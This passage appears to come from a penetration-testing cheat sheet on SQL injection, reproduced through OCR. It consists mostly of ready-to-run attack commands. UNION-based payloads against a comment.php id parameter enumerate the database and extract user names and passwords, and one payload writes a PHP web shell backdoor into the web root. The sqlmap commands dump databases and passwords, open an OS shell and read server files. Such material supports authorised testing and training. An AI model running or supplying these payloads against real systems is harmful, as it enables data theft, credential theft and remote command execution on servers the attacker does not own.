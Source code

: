     - Enumerating the Database

[http://$ip/comment.php?id=738](http://192.168.11.35/comment.php?id=738)’
Verbose error message?
http://$ip/comment.php?id=738 order by 1
http://$ip/comment.php?id=738 union all select 1,2,3,4,5,6
Determine MySQL Version:
http://$ip/comment.php?id=738 union all select 1,2,3,4,@@version,6
current user being used for the database connection
http://$ip/comment.php?id=738 union all select 1,2,3,4,user(),6
we can enumerate database tables and column structures

http://$ip/comment.php?id=738 union all select 1,2,3,4,table_name,6 FROM information_schema.tables

target the users table in the database

http://$ip/comment.php?id=738 union all select 1,2,3,4,column_name,6 FROM information_schema.columns where table_name='users'

extract the name and password

http://$ip/comment.php?id=738 union select 1,2,3,4,concat(name,0x3a, password),6 FROM users

Create a backdoor

http://$ip/comment.php?id=738 union all select 1,2,3,4,"<?php echo shell_exec($_GET['cmd']);?>",6 into OUTFILE 'c:/xampp/htdocs/backdoor.php'

    - SQLMap Examples
- Crawl the links

sqlmap -u http://$ip --crawl=1

sqlmap -u [http://meh.com](http://meh.com/) --forms --batch --crawl=10 --cookie=jsessionid=54321 --level=5 --risk=3

- SQLMap Search for databases against a suspected GET SQL Injection point ‘search’**

sqlmap –u http://$ip/blog/index.php?search –dbs

- SQLMap dump tables from database oscommerce at GET SQL injection point ‘search’ sqlmap –u http://$ip/blog/index.php?search= –dbs –D oscommerce –tables –dumps
- SQLMap GET Parameter command

sqlmap -u http://$ip/comment.php?id=738 --dbms=mysql --dump -threads=5

- SQLMap Post Username parameter sqlmap -u http://$ip/login.php --method=POST --data="usermail=[asc@dsd.com](https://github.com/m0chan/pwk-cheatsheet#file-transfersmailto:asc@dsd.com)&password=1231" -p "usermail" --risk=3 --level=5 --dbms=MySQL --dump-all
- SQL Map OS Shell sqlmap -u http://$ip/comment.php?id=738 --dbms=mysql --osshell

sqlmap -u http://$ip/login.php --method=POST --data="usermail=[asc@dsd.com](https://github.com/m0chan/pwk-cheatsheet#file-transfersmailto:asc@dsd.com)&password=1231" -p "usermail" --risk=3 --level=5 --dbms=MySQL --os-shell

- Automated sqlmap scan

sqlmap -u TARGET -p PARAM --data=POSTDATA --cookie=COOKIE
--level=3 --current-user --current-db --passwords
--file-read="/var/www/blah.php"
